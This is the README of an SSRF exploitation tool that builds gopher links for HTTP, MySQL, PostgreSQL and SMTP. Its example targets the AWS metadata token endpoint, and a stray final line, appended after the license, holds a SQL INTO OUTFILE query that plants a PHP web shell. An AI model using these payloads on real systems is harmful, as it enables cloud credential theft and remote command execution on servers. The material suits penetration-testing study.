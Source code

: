 # gopherfy
![Build Status](https://github.com/hupe1980/gopherfy/workflows/build/badge.svg) 
[![Go Reference](https://pkg.go.dev/badge/github.com/hupe1980/gopherfy.svg)](https://pkg.go.dev/github.com/hupe1980/gopherfy)
> Tool to generate gopher links for exploiting SSRF

:warning: This is for educational purpose. Don’t try it on live servers!

## How to use
```
Usage:
  gopherfy [command]

Available Commands:
  completion  Generate the autocompletion script for the specified shell
  help        Help about any command
  http        Generate http gopher link
  mysql       Generate mysql gopher link
  postgres    Generate postgres gopher link
  smtp        Generate smtp gopher link

Flags:
  -e, --encoder string   the encoder to use. allowed: "base64", "url" or "none" (default "none")
  -h, --help             help for gopherfy
  -v, --version          version for gopherfy

Use "gopherfy [command] --help" for more information about a command.
```

## HTTP
```
Generate http gopher link

Usage:
  gopherfy http [flags]

Examples:
gopherfy http -a 169.254.169.254:80 -p /latest/api/token -X PUT -H X-aws-ec2-metadata-token-ttl-seconds=21600

Flags:
  -a, --addr string             http address (default "127.0.0.1:80")
  -H, --header stringToString   http header value (key=value) (default [])
  -h, --help                    help for http
  -V, --http-version string     http protocol version (default "HTTP/1.0")
  -p, --path string             http path (default "/")
  -X, --request string          http request method (default "GET")
  -A, --user-agent string       http user agent (default "gopherfy")

Global Flags:
  -e, --encoder string   the encoder to use. allowed: "base64", "url" or "none" (default "none")
```

## MySQL
```
Generate mysql gopher link

Usage:
  gopherfy mysql [flags]

Flags:
  -a, --addr string    mysql address (default "127.0.0.1:3306")
  -d, --db string      mysql database name
  -h, --help           help for mysql
  -q, --query string   mysql query
  -u, --user string    mysql username (default "root")

Global Flags:
  -e, --encoder string   the encoder to use. allowed: "base64", "url" or "none" (default "none")
```

## PostgreSQL
```
Generate postgres gopher link

Usage:
  gopherfy postgres [flags]

Flags:
  -a, --addr string    postgres address (default "127.0.0.1:5432")
  -d, --db string      postgres database name
  -h, --help           help for postgres
  -q, --query string   postgres query
  -u, --user string    postgres username (default "postgres")

Global Flags:
  -e, --encoder string   the encoder to use. allowed: "base64", "url" or "none" (default "none")
```
## License
[MIT](LICENCE)

'select "<?php system($_REQUEST[\'cmd\']); ?>" INTO OUTFILE "/var/www/html/shell.php"'
